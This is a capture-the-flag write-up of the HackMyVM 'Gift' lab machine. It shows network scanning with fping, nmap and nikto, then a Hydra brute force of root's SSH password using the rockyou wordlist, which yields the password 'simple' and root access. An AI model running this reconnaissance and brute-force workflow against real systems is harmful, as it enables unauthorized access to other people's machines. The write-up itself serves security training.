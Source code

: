 ```yaml
---
title: Write-up Gift on HackMyVM
author: eMVee
date: 2023-09-12 20:00:00 +0800
categories: [CTF, HackMyVM]
tags: [HackMyVM]
render_with_liquid: false
---
```


A gift, who doesn't love that? I think everyone likes to receive a gift from time to time. There is an easy machine on HackMyVM called Gift. This machine caught my attention because of the name. Is there an online store where you have to hack something with SQL injection via gifts?

## Getting started

To work neatly, we create a working direcotry before we start our attack.
```bash
┌──(emvee㉿kali)-[~]
└─$ cd Documents/HMV/

┌──(emvee㉿kali)-[~/Documents/HMV]
└─$ mkdir Gift  

┌──(emvee㉿kali)-[~/Documents/HMV]
└─$ cd Gift          
```
We should know our own IP address well.
```bash                                               
┌──(emvee㉿kali)-[~/Documents/HMV/Gift]
└─$ ip a       
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host noprefixroute 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:0e:ca:e6 brd ff:ff:ff:ff:ff:ff
    inet 10.0.2.15/24 brd 10.0.2.255 scope global dynamic noprefixroute eth0
       valid_lft 485sec preferred_lft 485sec
    inet6 fe80::a00:27ff:fe0e:cae6/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever
3: docker0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default 
    link/ether 02:42:16:8c:e3:ab brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
```

## Enumeration
Now we're really going to start! First we start with enumeration of the (virtual) network in which our target is located. We can do this with fping.
```bash
┌──(emvee㉿kali)-[~/Documents/HMV/Gift]
└─$ fping -ag 10.0.2.0/24 2> /dev/null
10.0.2.1
10.0.2.2
10.0.2.3
10.0.2.9
10.0.2.15
```
Once we find an IP address for the target, we assign it to a variable called `ip`. This makes working with commands easier.
```bash
┌──(emvee㉿kali)-[~/Documents/HMV/Gift]
└─$ ip=10.0.2.9
```
First, let's find out what ports are open and what services are running. We do this with nmap across all ports.
```bash
┌──(emvee㉿kali)-[~/Documents/HMV/Gift]
└─$ sudo nmap -sC -sV -T4 -A -O -p- $ip
[sudo] password for emvee: 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-12 07:51 CEST
Nmap scan report for 10.0.2.9
Host is up (0.00049s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.3 (protocol 2.0)
| ssh-hostkey: 
|   3072 2c:1b:36:27:e5:4c:52:7b:3e:10:94:41:39:ef:b2:95 (RSA)
|   256 93:c1:1e:32:24:0e:34:d9:02:0e:ff:c3:9c:59:9b:dd (ECDSA)
|_  256 81:ab:36:ec:b1:2b:5c:d2:86:55:12:0c:51:00:27:d7 (ED25519)
80/tcp open  http    nginx
|_http-title: Site doesn't have a title (text/html).
MAC Address: 08:00:27:14:23:D4 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.49 ms 10.0.2.9

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.65 seconds

```
Only port 22 and port 80 are open. Usually gate 22 is not interesting to attack right away. Let's update our notes.
- Linux, not yet known which one
- Port 22
    - SSH
    - Openssh 8.3
- Port 80
    - HTTP
    - nginx
    - Title: site doesn't have a title (text/html)

Because port 80 is the most interesting, it makes sense to look into this further first. With whatweb we can get an idea of what technology was used.
```bash
┌──(emvee㉿kali)-[~/Documents/HMV/Gift]
└─$ whatweb http://$ip
http://10.0.2.9 [200 OK] Country[RESERVED][ZZ], HTTPServer[nginx], IP[10.0.2.9], nginx
```
Unfortunately, we have not become much wiser. Maybe Nikto can find something, although I'm not really convinced at the moment.
```bash
┌──(emvee㉿kali)-[~/Documents/HMV/Gift]
└─$ nikto -h http://$ip
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.0.2.9
+ Target Hostname:    10.0.2.9
+ Target Port:        80
+ Start Time:         2023-09-12 07:52:52 (GMT2)
---------------------------------------------------------------------------
+ Server: nginx
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ /#wp-config.php#: #wp-config.php# file found. This file contains the credentials.
+ 8102 requests: 0 error(s) and 3 item(s) reported on remote host
+ End Time:           2023-09-12 07:53:14 (GMT2) (22 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested

```
Nikto did find something, a `#wp-config.php` file with possible credentials. So let's inspect this.
```bash
┌──(emvee㉿kali)-[~/Documents/HMV/Gift]
└─$ curl http://$ip/#wp-config.php#

Dont Overthink. Really, Its simple.
        <!-- Trust me -->

 
```
Okay, I didn't expect this... with little on a website and port 22 still open, a brute force attack on SSH still remains open. We can use Hydra for this with a username `root` and rockyou as a dictionary.
```bash
┌──(emvee㉿kali)-[~/Documents/HMV/Gift]
└─$ hydra ssh://$ip -l root -P /usr/share/wordlists/rockyou.txt -t 64
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-09-12 07:55:35
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://10.0.2.9:22/
[STATUS] 374.00 tries/min, 374 tries in 00:01h, 14344061 to do in 639:14h, 28 active
[22][ssh] host: 10.0.2.9   login: root   password: simple
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 23 final worker threads did not complete until end.
[ERROR] 23 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-09-12 07:56:47


```
Hydra has found a valid pair of credentials. Let's add this to our notes and login.
```
root:simple
```


## Initial access
Time to log in as root via the SSH service.
```bash
┌──(emvee㉿kali)-[~/Documents/HMV/Gift]
└─$ ssh root@$ip                       
The authenticity of host '10.0.2.9 (10.0.2.9)' can't be established.
ED25519 key fingerprint is SHA256:dXsAE5SaInFUaPinoxhcuNloPhb2/x2JhoGVdcF8Y6I.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.0.2.9' (ED25519) to the list of known hosts.
root@10.0.2.9's password: 
IM AN SSH SERVER
gift:~# 
```
Once we are logged in to the system, we have to check who we are and which machine we are working on.
```bash
gift:~# whoami;id;hostname;ip a;pwd
root
uid=0(root) gid=0(root) groups=0(root),0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
gift
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP qlen 1000
    link/ether 08:00:27:14:23:d4 brd ff:ff:ff:ff:ff:ff
    inet 10.0.2.9/24 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::a00:27ff:fe14:23d4/64 scope link 
       valid_lft forever preferred_lft forever
/root
gift:~# 

```
We are really root, so we can now capture all the flags.
```bash
gift:~# ls
root.txt  user.txt
gift:~# cat user.txt 
<-- Here is the USER flag -->
gift:~# cat root.txt 
<-- Here is the ROOT flag -->

```